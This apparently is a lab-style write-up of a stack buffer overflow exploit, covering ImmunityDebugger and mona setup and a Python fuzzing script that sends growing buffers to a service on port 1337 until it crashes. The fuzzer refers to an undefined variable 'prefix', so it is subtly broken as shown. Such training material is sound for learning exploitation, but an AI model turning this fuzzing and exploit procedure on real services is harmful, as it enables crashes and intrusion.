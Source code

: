 I was able to exploit a stack based buffer overflow that I found on the service  running on the machine IP X.X.X.X.
In the following section, I document my approach by writing the same commands and procedures that I did.
In this way, a technician will be able to take these instructions, follow them, and exploit this vulnerability.
# 0. Set Up
1. Start ImmunityDebugger by double clicking on it;
2. Configure mona with
`!mona config -set workingfolder c:\desired\path\%p`
2. Open from ImmunityDebugger the vulnerable application exe with the shortcut `F3`;
3. Run the vulnerable application exe with the shortcut `F9`;
4. Along the documentation, when it's written "reopen the app from ImmunityDebugger" or something similar, it means that the app needs to be reopened and relaunched;
5. With the term `debugging machine` I intend the machine used to debug and test the exploit;
6. With the term `target`, I intend the actual target machine that need to be exploited;
7. Note that sometimes mona won't automatically open the correct window. If this happens while you're following my guide, please use of the Window option from ImmunityDebugger menu bar to choose the correct window
![[Pasted image 20210827231124.png]]
# 1. fuzzing
With a script, fuzz the service by sending 100 bytes per time.  
Note with how many bytes the service has crashed.
To fuzz it I've used the following
```python
#!/usr/bin/python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5

string = "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
	
  string += 100 * "A"
  
  time.sleep(1)
```
